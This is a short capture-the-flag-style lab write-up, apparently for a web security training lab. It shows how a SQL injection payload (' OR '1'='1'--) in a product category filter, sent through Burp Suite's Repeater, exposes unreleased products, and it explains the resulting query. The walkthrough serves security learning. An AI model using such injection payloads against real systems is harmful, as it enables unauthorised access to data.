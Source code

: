 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/05c0ded5-6b18-4436-83a0-10d0028bec34)

Let's filter by `Accessories`.

![2](https://github.com/Knign/Write-ups/assets/110326359/ee0df3f1-fb0b-45ec-8615-c79471f13858)

The resultant SQL query is:

```
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
```

 Since we are proxying the traffic through Burp Suite, we can access this request in the `Proxy> HTTP History` tab.

![5](https://github.com/Knign/Write-ups/assets/110326359/5aaf1fbb-f0fe-4fdd-939b-2606da5ed80f)

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, we can set the `categories` filter to the following:

```
' OR '1'='1'--
```

The resultant SQL query will be:

```
SELECT * FROM products WHERE category = '' OR '1' = '1'--' AND released = 1

## Queried part:
SELECT * FROM products WHERE category = '' OR '1' = '1'

## Commented part
' AND released = 1
```

Since 1 is always equal to 1, the server will output all the categories. And since, we are commenting out the `AND released = 1` part, even the unreleased products will be output.

![4](https://github.com/Knign/Write-ups/assets/110326359/b0a631f0-5746-4946-af91-18aca263b6c4)

We have solved the lab.

![6](https://github.com/Knign/Write-ups/assets/110326359/d5602a3a-6753-439e-b0bc-18335f2cfa6e)
